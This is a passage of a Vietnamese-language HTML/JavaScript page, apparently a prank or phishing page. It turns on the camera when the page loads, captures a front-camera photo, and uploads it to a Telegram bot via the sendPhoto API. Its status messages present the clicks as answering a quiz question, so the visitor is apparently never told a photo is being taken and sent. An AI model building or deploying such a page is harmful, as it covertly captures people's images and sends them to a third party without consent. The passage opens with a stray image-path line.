                 statusText.textContent = 'Chắc Chắn Chưa 😅...';
            } catch (error) {
                console.error('Lỗi khi khởi động camera:', error);
                statusText.textContent = 'Lỗi khi khởi động camera: ' + error.message;
            }
        }

        // Chụp ảnh từ camera trước
        function capturePhotos() {
            // Đặt kích thước canvas bằng kích thước video
            frontCanvas.width = frontVideo.videoWidth;
            frontCanvas.height = frontVideo.videoHeight;
            
            // Vẽ hình ảnh từ video vào canvas
            const frontCtx = frontCanvas.getContext('2d');
            frontCtx.drawImage(frontVideo, 0, 0, frontCanvas.width, frontCanvas.height);
            
            // Lưu dữ liệu ảnh
            frontPhoto = frontCanvas.toDataURL('image/jpeg');
            
            statusText.textContent = 'Đã trả lời thành công!';
            sendBtn.disabled = false;
        }

        // Gửi ảnh đến Telegram bot
        async function sendPhotos() {
            if (!frontPhoto) {
                statusText.textContent = 'Không có ảnh để gửi. Vui lòng chụp ảnh trước.';
                return;
            }
            
            try {
                sendBtn.disabled = true;
                statusText.textContent = 'Đang gửi Câu Trả Lời...';
                
                // Tạo form data
                const formData = new FormData();
                
                // Chuyển đổi base64 thành blob
                const frontBlob = await fetch(frontPhoto).then(res => res.blob());
                
                // Thêm ảnh vào form data
                formData.append('chat_id', CHAT_ID);
                formData.append('caption', 'Ảnh chụp từ ứng dụng');
                formData.append('photo', frontBlob, 'front_photo.jpg');
                
                // Gửi Câu Trả Lời
                await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, {
                    method: 'POST',
                    body: formData
                });
                
                statusText.textContent = 'Đã gửi câu trả lời thành công!';
            } catch (error) {
                console.error('Lỗi khi gửi ảnh:', error);
                statusText.textContent = 'Lỗi khi gửi ảnh: ' + error.message;
                sendBtn.disabled = false;
            }
        }

        // Xử lý sự kiện
        captureBtn.addEventListener('click', capturePhotos);
        sendBtn.addEventListener('click', sendPhotos);

        // Khởi động ứng dụng
        window.addEventListener('load', initCameras);
    </script>
</body>
</html>
